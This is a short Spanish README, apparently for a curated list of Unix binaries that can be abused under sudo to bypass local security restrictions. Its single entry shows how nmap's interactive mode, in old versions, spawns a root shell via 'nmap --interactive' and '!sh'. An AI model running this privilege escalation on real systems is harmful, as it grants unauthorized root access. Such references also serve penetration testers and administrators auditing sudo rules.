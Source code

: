 # LIST-BINS
ListBinsSudo es una lista curada de binarios Unix que pueden utilizarse para saltarse las restricciones de seguridad locales en sistemas mal configurados.

## NMAP
Si al binario se le permite ejecutarse como superusuario mediante sudo, no se le retiran los privilegios elevados y puede utilizarse para acceder al sistema de archivos, escalar o mantener accesos privilegiados.
### SUDO
El modo interactivo, disponible en las versiones 2.02 a 5.21, puede utilizarse para ejecutar comandos de shell.
```bat
usaurio@locahost: nmap --interactive
nmap> !sh
```
